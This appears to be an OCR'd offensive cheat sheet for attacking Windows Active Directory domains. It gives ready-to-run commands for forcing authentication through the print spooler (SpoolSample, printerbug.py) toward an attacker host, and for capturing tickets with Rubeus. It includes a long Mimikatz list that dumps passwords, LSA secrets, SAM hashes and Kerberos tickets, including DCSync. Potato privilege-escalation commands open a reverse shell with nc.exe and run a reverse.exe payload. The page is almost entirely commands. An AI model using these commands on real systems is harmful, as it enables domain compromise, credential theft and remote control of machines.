 ## Spool Service via SpoolSample or PrinterBug
- Coerce Authentication
- [Binary Link](https://github.com/jtmpu/PrecompiledBinaries)
```
ls \\dc01\pipe\spoolss
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
impacket-rpcdump -port 135 <target-ip> | grep -i 'spoolss'
rpcdump.py $TARGET | grep -A 6 "spoolsv"

Rubeus.exe monitor /monitorinterval:10 /targetuser:DC01$ /nowrap

.\SpoolSample.exe dc01 ws01 OR 
python dementor.py -d domain -u username -p password RESPONDERIP TARGET OR
python printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'

mimikatz # sekurlsa::tickets

ptt attack
```

## Mimikatz 
```
privilege::debug (run first)
token::elevate
vault::list
vault::cred /patch
lsadump::sam
lsadump::lsa /patch
sekurlsa::logonpasswords
sekurlsa::logonpasswords full
sekurlsa::tickets /export
kerberos::list
crypto::certificates
lsadump::secrets
lsadump::dcsync
lsadump::cache
sekurlsa::ekeys
sekurlsa::credman
sekurlsa::kerberos
sekurlsa::msv
```

## Rubeus
```
Rubeus triage
```
Do the pass the ticket attack or convert to ccache and use kerberos with impacket and other tools

## Impersonate Attacks
```
.\JuicyPotato.exe -t t -p <path to exploit binary> -l 5837
.\JuicyPotato.exe -e EfsRpc -p <path to nc.exe> -a "LHOST LPORT -e cmd"
.\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```
- GodPotato
- SweetPotato
- RottenPotato
- Incognito.exe?
